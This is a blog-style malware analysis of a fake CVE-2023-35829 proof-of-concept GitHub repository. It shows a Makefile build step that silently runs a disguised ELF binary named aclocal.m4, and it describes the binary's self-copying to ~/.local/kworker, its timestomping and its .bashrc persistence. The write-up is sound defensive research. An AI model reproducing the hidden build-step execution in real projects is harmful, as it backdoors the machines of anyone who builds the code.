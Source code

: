 Intrigue got the better of me for reviewing this one. I've not had a great deal of time to Reverse much lately, and I've had an interest in exploits like this since [ZephrFish](https://twitter.com/ZephrFish) ran wild with an exploit PoC a couple of years ago and done a great [blog](https://blog.zsec.uk/cve-2020-1350-honeypoc/) on the topic.

Essentially, the attack could be classified as a _Watering Hole_ attack. Given that the malicious actor here has utilised a well known resource for PoCs being published (Github) and hidden their own malicious code within, making it look as legit as possible.

# Analysis

I pulled a copy of the repo.. well another one that has sprung up with the exact same code[^2] so I could review it in more detail based on the backdoor tweet.

## Makefile

The malicious actor included a binary within the _src_ folder and named it so to look like it could be a legitimate file as part of a program build. However, upon looking into the actual Makefile contents, we see that it is being called to run the file.

```html
<div style="background-color: #85CACD;">
	<code>
		$(TARGET): $(OBJECTS)
			$(CC) $(LDFLAGS) -o $@ $^
			strip $@
			./src/aclocal.m4
</div>		
```

## aclocal.m4

The file is a 64-bit ELF binary, which is now availble on [VirusTotal](https://www.virustotal.com/gui/file/caa69b10b0bfca561dec90cbd1132b6dcb2c8a44d76a272a0b70b5c64776ff6c)

### Static Analysis (Ghidra)

Main backdoor function address - **FUN_00103488**

From address **00103550**, the string **kworker** is passed into RAX (couple byte at a time) then RDX to be compared against the current process name at **001035cb**. If this is false (i.e. first run) then the following two functions are also run:

- FUN_0010296c
- FUN_00102fa8

The function **FUN_0010296c** checks the HOME environment variable, then copies the running binary to `~/.local/kworker`, setting the permissions _(0770)_ and calling another function at **FUN_001028ef**. This function utlises `utime` to timestomp what is passed to it - in this case, the new kworker binary. The new binary is then executed.

Next, the first bit of persistence is established with **FUN_00102fa8**. The _.bashrc_ file is determined for the user, and the malware path (`~/.local/kworker`) is appended to the end of the file before also being passed to the timestomp function.


[^1]: https://github.com/ChriSanders22/CVE-2023-35829-poc (removed by Github)
[^2]: https://github.com/apkc/CVE-2023-35829-poc (still active at time of writing)